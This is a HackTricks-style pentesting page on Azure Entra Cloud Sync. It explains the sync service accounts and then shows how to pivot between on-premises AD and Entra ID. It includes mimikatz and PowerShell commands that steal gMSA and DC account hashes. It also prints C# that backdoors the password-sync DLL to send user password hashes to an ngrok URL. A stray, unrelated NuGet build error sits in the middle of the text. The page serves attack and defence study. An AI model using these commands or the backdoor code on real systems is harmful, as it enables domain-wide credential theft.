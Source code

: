 # Az - Cloud Sync

{{#include ../../../banners/hacktricks-training.md}}


## Basic Information

**Cloud Sync** is basically the new way of Azure to **synchronize the users from AD into Entra ID**.

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync is a new offering from Microsoft designed to meet and accomplish your hybrid identity goals for synchronization of users, groups, and contacts to Microsoft Entra ID. It accomplishes this by using the Microsoft Entra cloud provisioning agent instead of the Microsoft Entra Connect application. However, it can be used alongside Microsoft Entra Connect Sync.

### Principals Generated

In order for this to work some principals are created in both Entra ID and the On-Premise directry:

- In Entra ID the user `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) is created with the role **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`). 

> [!WARNING]
> This role used to have a lot of privileged permissions and it could be used to [**escalate privileges even to global admin**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b). However, Microsoft decided to remove all the privileges of this role and assign it just a new one **`microsoft.directory/onPremisesSynchronization/standard/read`** which doesn't really allow to perform any privileged action (like modifying the password or atribbutes of a user or adding a new credential to a SP).

- In Entra ID also the group **`AAD DC Administrators`** is created without members or owners. This group is useful if [`Microsoft Entra Domain Services`](./az-domain-services.md) is used.

- In the AD, either the Service Account **`provAgentgMSA`** is created with a SamAcountName like **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), or a custom one with [**these permissions is needed**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account). Usually the default one is created.

> [!WARNING]
> Among other permissions the Service Account **`provAgentgMSA`** has DCSync permissions, allowing **anyone that compromises it to compromise the whole directory**. For more information about [DCSync check this](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html).

> [!NOTE]
> By default users of known privileged groups like Domain Admins with the attribute **`adminCount` to 1 are not synchronized** with Entra ID for security reasons. However, other users that are part of privileged groups without this attribute or that are assigned high privileges directly **can be synchronized**.

## Password Sychronization

The section is very similar to the one from:

{{#ref}}
az-connect-sync.md
{{#endref}}

- **Password hash synchronization** can be enabled so users will be able to **login into Entra ID using their passwords from AD**. Moreover, whenever a password is modified in AD, it'll be updated in Entra ID.
- **Password writeback** can also be enabled, allowing users to modify their password in Entra ID automatically synchronizing their password in the on-premise domain. But according to the [current docs](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback), for this is needed to use the Connect Agent, so take a look to the [Az Connect Sync section](./az-connect-sync.md) for more information.
- **Groups writeback**: This feature allows group memberships from Entra ID to be synchronized back to the on-premises AD. This means that if a user is added to a group in Entra ID, they will also be added to the corresponding group in AD.


## Pivoting

### AD --> Entra ID

- If the AD users are being synced from the AD to Entra ID, pivoting from AD to Entra ID is straightforward, just **compromise some user's password or change some user's password or create a new user and wait until it's synced into the Entra ID directory (usually only a few mins)**.

So you could for example
- Compromise the **`provAgentgMSA`** account, perform a DCSync attack, crack the password of some user and then use it to login into Entra ID.
- Just create a new user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.
- Modify the password of some user in the AD, wait until it's synced into Entra ID and then use it to login into Entra ID.

To compromise the **`provAgentgMSA`** credentials:

```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

Now you could use the hash of the gMSA to perform a Pass-the-Hash attack against Entra ID using the `provAgentgMSA` account and maintain persistence being able to perform DCSync attacks against the AD.

For more information about how to compromise an Active Directory check:

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> Note that There isn't any way to give Azure or EntraID roles to synced users based on its attributes for example in the Cloud Sync configurations. However, in order to automatically grant permissions to synced users some **Entra ID groups from AD** might be given permissions so the synced users inside those groups also receive them or **dynamic groups might be used**, so always check for dynamic rules and potential ways to abuse them:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

Regarding persistence [this blog post](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) suggest that it's possible to use [**dnSpy**](https://github.com/dnSpy/dnSpy) to backdoor the dll **`Microsoft.Online.Passwordsynchronisation.dll`** located in **`C:\Program Files\Microsoft Azure AD Sync\Bin`** that is used by the Cloud Sync agent to perform the password synchronization making it exfiltrate the password hashes of the users being synchronized to a remote server. The hashes are generated inside the class **`PasswordHashGenerator`** and the blog post suggest adding some code so the class looks like (note the `use System.Net` and the `WebClient` usage to exfiltrate the password hashes):

```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
	// Token: 0x0200003E RID: 62
	public class PasswordHashGenerator : ClearPasswordHashGenerator
	{
		// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
		public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
		{
			PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
			try
			{
				using (WebClient webClient = new WebClient())
				{
					webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
				}
			}
			catch (Exception)
			{
			}
			return new PasswordHashData
			{
				Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
				RawHash = passwordHashData.RawHash
			};
		}
	}
}
```


NuGet Package restore failed for project AzTokenFinder: Unable to find version '4.3.2' of package 'System.Security.Cryptography.X509Certificates'.
  C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: Package 'System.Security.Cryptography.X509Certificates.4.3.2' is not found on source 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\'.
. Please see Error List window for detailed warnings and errors.



### Entra ID --> AD

- If **Password Writeback** is enabled, you could modify the password of some users from Entra ID and if you have access to the AD network, connect using them. For more info check the [Az Connect Sync section](./az-connect-sync.md) section for more information as the password writeback is configured using that agent.

- At this point in time Cloud Sync also allows **"Microsoft Entra ID to AD"**, but after too much time I found that it CANNOT synchronize EntraID users to AD and that it can only synchronize users from EntraID that were synchronized with the password hash and come from a domain that belong to the same domain forest as the domain we are synchronizing to as you can read in [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - These groups can only contain on-premises synchronized users and / or additional cloud created security groups.
> - The on-premises user accounts that are synchronized and are members of this cloud created security group, can be from the same domain or cross-domain, but they all must be from the same forest.

So the attack surface (and usefulness) of this service is greatly reduced as an attacker would need to compromise the initial AD from where the users are being synchronized in order to compromise a user in the other domain (and both must be in the same forest apparently).


### Enumeration

```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
  --method GET \
  --uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
  --headers "Content-Type=application/json"
```



{{#include ../../../banners/hacktricks-training.md}}

